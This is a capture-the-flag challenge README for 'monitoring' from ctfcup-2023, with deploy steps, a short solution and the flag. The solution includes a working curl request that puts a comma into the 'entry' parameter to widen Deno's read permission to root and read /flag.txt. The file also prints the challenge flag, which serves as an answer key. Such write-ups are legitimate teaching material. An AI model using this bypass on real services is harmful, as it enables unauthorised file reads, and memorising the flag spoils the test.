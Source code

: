 # web | monitoring

## Information

[https://monitoring-e2fc67113f9ed6f1d2bd6eae0c98f124.ctfcup-2023.ru](https://monitoring-e2fc67113f9ed6f1d2bd6eae0c98f124.ctfcup-2023.ru)

## Deploy

```sh
cd deploy
MONITORING_FLAG="ctfcup{flag}" docker compose -p rev-monitoring up --build -d
```

## Public

Provide zip file: [public/monitoring.zip](public/monitoring.zip).

## TLDR

Find source code at the end of the file (e.g using `rabin2 -zzz`), extract it, perform simple reverse engineering (as usual the obfuscation basically stores all strings in an array).

The app executes our code from the "cmd" parameter using deno, and you can specify the entry to read using the "entry" parameter:

```js
const command = Bun.spawn(
  ["/usr/bin/deno", "run", `--allow-read=./${entry}`, cmdPath],
  {
    stderr: "ignore",
    cwd: "entries",
    env: {},
  }
);
```

However, ".." is banned in entry, but you can simply specify a second path using a comma in order to get read access to the root.

```sh
curl http://localhost:1984 -i -H "Monitor-Access-Token: MEGALITH_MONITORING_SYSTEM_EZRVJJCQ4ET3W25BONANMPWPQSRV7JXE" --data-raw '{"cmd":"console.log(new TextDecoder().decode(Deno.readFileSync(\"/flag.txt\")))","entry":"/,/"}'
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://monitoring-e2fc67113f9ed6f1d2bd6eae0c98f124.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{t00-m4ny-su55y-jS-runt1m3s-f7cc17249450a7fb}
